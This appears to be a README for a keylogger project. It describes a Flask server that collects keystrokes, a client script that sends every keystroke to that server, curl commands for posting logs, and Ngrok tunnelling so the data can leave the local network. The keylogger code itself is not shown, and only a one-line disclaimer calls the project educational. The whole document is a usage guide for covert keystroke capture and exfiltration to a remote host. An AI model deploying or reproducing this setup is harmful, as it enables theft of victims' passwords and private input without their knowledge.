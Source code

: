 📂 Project Structure
bash
Copy
Edit
/server
│── server.py          # Flask server for logging keystrokes
│── server_log.txt     # Automatically created log file
│── client.py          # Keylogger script that sends data to the server
│── README.md          # Documentation
🔧 Setup & Usage
1️⃣ Install Dependencies
Ensure you have Python installed, then install Flask & Requests:

sh
Copy
Edit
pip install flask requests
2️⃣ Start the Flask Server
Run the Flask server:

sh
Copy
Edit
python server.py
You'll see output like:

csharp
Copy
Edit
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.X.X:5000
Use the local IP (192.168.X.X) for network access.

3️⃣ Test Server with cURL
Check if the server is running:

sh
Copy
Edit
curl -X GET "http://192.168.X.X:5000/"
Send a test log:

sh
Copy
Edit
curl -X POST "http://192.168.X.X:5000/log" -H "Content-Type: application/json" -d "{\"key\": \"test\"}"
4️⃣ Run the Client Keylogger
Modify client.py with the correct SERVER_IP and run:

sh
Copy
Edit
python client.py
Now, all keystrokes will be sent to the Flask server.

🌍 Remote Access (Optional)
If you need access outside the local network, use Ngrok:

sh
Copy
Edit
ngrok http 5000
It will generate a public URL like:

arduino
Copy
Edit
https://abcd.ngrok-free.app
Use this in the client instead of the local IP.

🐞 Troubleshooting
Server not reachable?
Check firewall settings and allow Python.
Ensure Flask is running on 0.0.0.0 (not just 127.0.0.1).
Run ipconfig (Windows) or ifconfig (Linux) to get the correct local IP.
cURL shows 404 error?
Use the correct endpoint: /log (not just /).
Restart Flask after any changes.
📌 Security Disclaimer
🔴 Use this tool responsibly. Unauthorized keylogging is illegal. This project is for educational and ethical hacking purposes only.
